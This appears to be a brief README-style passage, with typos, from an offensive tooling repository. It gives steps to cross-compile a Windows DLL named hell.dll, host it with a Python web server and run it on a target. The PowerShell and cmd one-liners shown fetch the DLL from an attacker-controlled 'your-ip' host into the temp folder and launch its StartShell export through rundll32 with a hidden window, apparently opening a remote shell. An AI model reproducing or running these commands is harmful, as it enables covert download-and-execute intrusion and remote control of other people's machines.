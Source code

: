 In youe Linux shell you need to compile the code bu the given command
$x86_64-w64-mingw32-gcc -shared -o finalfilename.dll hell1.c -lws2_32 -municode

Then you can send this fiile by anyways i use a simple way
$python3 -m http.server

Now come to windows
powershell
$powershell -w hidden -c "$f=Join-Path $env:TEMP 'hell.dll';iwr -uri 'http://your-ip:0000/hell.dll' -OutFile $f;rundll32 $f,StartShell"
cmd
$cmd /c powershell -w hidden -c "$f=Join-Path $env:TEMP 'hell.dll';iwr -uri 'http://your-ip:0000/hell.dll' -OutFile $f;rundll32 $f,StartShell"
